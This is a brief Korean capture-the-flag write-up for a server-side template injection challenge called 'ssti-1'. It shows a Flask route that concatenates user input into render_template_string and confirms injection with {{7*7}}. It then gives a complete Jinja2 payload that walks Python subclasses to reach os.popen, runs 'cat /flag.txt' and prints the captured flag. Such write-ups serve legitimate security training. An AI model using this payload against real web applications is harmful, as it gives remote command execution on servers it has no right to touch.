


## ssti-1

```bash
def index():
    name = request.args.get("name", "world")
    return render_template_string("<h2>hello " + name + "</h2>")  # SSTI sink
```

name 파라미터에 값을 넣으면 템플릿의 실행 값을 웹 사이트에 띄워 준다는 것을 확인했다.

실제로 name={{7*7}}을 했을 때 49가 나온다



```bash
http://edu.arang.kr:9207/?name={{[].__class__.__mro__[1].__subclasses__()[202].__init__.__globals__[%27sys%27].modules[%27os%27].popen(%27cat%20/flag.txt%27).read()}}
```

subclass 목록에서 `warnings.catch_warnings` 가 [202]에 있다는 사실을 찾아 냈고 이를 이용해 popen 명령어를 사용해 flag를 출력하는 페이로드를 구상하였다.



실행이 성공적으로 되어 flag를 획득하였다. flag{37c924dfa363600e205c}
